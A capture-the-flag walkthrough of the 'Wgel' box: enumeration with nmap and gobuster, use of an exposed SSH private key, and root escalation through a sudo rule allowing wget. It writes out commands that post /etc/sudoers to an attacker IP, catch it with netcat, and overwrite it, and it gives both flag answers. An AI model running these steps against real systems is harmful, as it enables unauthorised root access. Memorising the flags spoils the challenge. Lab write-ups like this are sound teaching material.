

Wgel CTF
Summary:
In this challenge we are presented with an Apache webserver. The landing page is the default Apache page and to gain the initial foothold, we need to enumerate hidden sites multiple times.
This allows us to get access to a private SSH key located on the server. Together with a comment that was left in the source code of one of the pages we can log into the server.
Once there, a misconfigured sudoers file allows us to use wget as root and escalate our privileges.
User flag:
First we perform a port scan:
sudo nmap -A <IP>
This reveals that port 22 (SSH) and port 80 (HTTP) are open.
Since there's a webserver running on the system we connect to its IP via the browser.
We are greeted by the Apache default page.
So, next we try to find any hidden directories on this server using Gobuster:
gobuster dir -u 10.10.80.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
We can see that a website, that appears to be a business website, is hidden behind /sitemap.
After running another Gobuster scan against this site using the dirb/common.txt wordlist more interesting subdirectories are revealed:

In fact, going to /.ssh allows you to access an RSA private key, which based on the name of the directory is probably the private SSH key to the server.
After downloading this file and using ssh2john.py to try and crack the password the script reveals that there is no password to crack.
Now, all we have to do to log in is to find the corresponding username. Usernames such as ‘admin’, ‘wp_admin’ and ‘unapp’ didn't work. After a bit more digging it turns out that there's a comment left in the source code of the original landing page:
“<!-- Jessie don't forget to udate the webiste -->”
Bingo! Now we can log in with the private key and the ‘jessie’ as the username.
After logging in, we can find the ‘user_flag.txt’ file in jessie's ~/Documents folder.
Answer: 057c67131c3d5e42dd5cd3075b198ff6
Root flag:
After successfully logging in we can first check what we can do on the system by using:
sudo -l
We notice that we can execute wget as root without requireing a password.
This means that we can download files onto the system and overwrite whatever file we want in the process.
I opted to overwrite the /etc/sudoers file and to give jessie access too everything without needing a password:
sudo wget --post-file=/etc/sudoers <attacker IP>
We can then catch that file using netcat:
sudo nc -lvp 80 > sudoers
And then edit it with visudo to change
jessie ALL=(root) NOPASSWD: /bin/wget
to
jessie ALL=(root) NOPASSWD: ALL
Afterwards we can spin up a Python server to upload the file again:
python3 -m http.server 8080
Afterwards we just need to go back to the victim's box and overwrite /etc/sudoers as follows:
sudo wget -O /etc/sudoers <IP:PORT/FILE>
We can then check our new permissions using
sudo -l
and we notice that we can now execute all commands as root without requireing a password.
So, to become root we execute the following command:
sudo su
Now we can read the contents of /root/root_flag.txt
Answer: b1b968b37519ad1daa6408188649263d